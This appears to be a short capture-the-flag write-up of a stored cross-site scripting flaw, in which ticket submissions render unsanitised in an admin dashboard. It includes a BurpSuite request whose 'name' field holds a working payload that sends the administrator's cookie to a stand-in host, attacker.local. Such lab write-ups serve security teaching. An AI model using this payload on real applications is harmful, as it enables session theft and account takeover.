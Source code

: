 - __Vulnerability__: Cross-site Scripting
- __Goal__: retrieve administrator's cookie / session and gain administrator access to the application
- __Description__: After reviewing the application's source code, we observe that user submissions are reflected to the admin dashboard without proper input validation; thus, an attacker can send a malicious HTML payload that is executed as part of the administrator dashboard after ticket submissions are loaded.

#### BurpSuite HTTP request

```sh
POST /api/submit_ticket HTTP/1.1
Host: victim.local
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Content-Type: application/json
Connection: close
Content-Length: X

{

"name":"<img src=x onerror='document.write(\"<img src=http://attacker.local/?data=\"+document.cookie+\"/>\")'/>",
"email":"admin@gearhost.htb",
"website":"http://127.0.0.1:1337/tickets",
"message":"Heh wrong parameter"

}
```